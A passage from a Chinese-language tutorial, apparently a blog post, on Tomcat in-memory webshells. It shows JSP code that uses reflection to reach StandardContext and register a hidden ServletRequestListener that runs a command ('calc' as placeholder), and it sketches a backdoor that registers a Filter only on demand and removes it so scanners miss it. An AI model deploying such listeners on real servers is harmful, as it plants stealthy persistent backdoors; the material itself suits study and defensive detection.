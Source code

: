             @Override
            public void requestDestroyed(ServletRequestEvent sre) {
    
            }
    
            @Override
            public void requestInitialized(ServletRequestEvent sre) {
                try {
                    Runtime.getRuntime().exec("calc");
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    %>
    <%
        // 1. 获取 StandardContext
        ServletContext servletContext = request.getServletContext();
        // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
        Field applicationContextField = servletContext.getClass().getDeclaredField("context");
        applicationContextField.setAccessible(true);
        // 通过反射拿到 servletContext 具体的 ApplicationContext
        ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
        // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
    
        // 2. 通过 standardContext 添加 listener
        standardContext.addApplicationEventListener(new MemoryTrojanListener());
    %>
    </body>
    </html>
    ```
    
4. Listener 内存马需要实现 `ServletRequestListener`，其中的 `requestInitialized` 和 `requestDestroyed` 还可以去实现一些操作：

    > 由于在 `ServletRequestListener` 中可以获取到 `ServletRequestEvent`，这其中又存了很多东西，`ServletContext/StandardContext` 都可以获取到，那玩法就变得更多了。可以根据不同思路实现很多非常神奇的功能，我举个例子：
    >
    > - 在 requestInitialized 中监听，如果访问到了某个特定的 URL，或这次请求中包含某些特征（可以拿到 request 对象，随便怎么定义），则新起一个线程去 StandardContext 中注册一个 Filter，可以实现某些恶意功能。
    > - 在 requestDestroyed 中再起一个新线程 sleep 一定时间后将我们添加的 Filter 卸载掉。
    >
    > 这样我们就有了一个真正的动态后门，只有用的时候才回去注册它，用完就删。平常使用扫内存马的软件也根本扫不出来。这个例子也是我突然拍脑袋想出来的，可能实际意义并不大，但是可以看出 Listener 内存马的危害性和玩法的变化要大于 Filter/Servlet 内存马的。

## 5. Valve 内存马

1. 在上文的 [1.2](# 1.2 Container 的请求处理) 中介绍了 Tomcat 的 Pipeline-Valve 责任链模式，之前所谈的 Filter 是最后 `StandardWrapperValve` 中的 Filter，既然 Filter 有内存马，那么再向上看一层，也就是 Valve，也是存在内存马的。
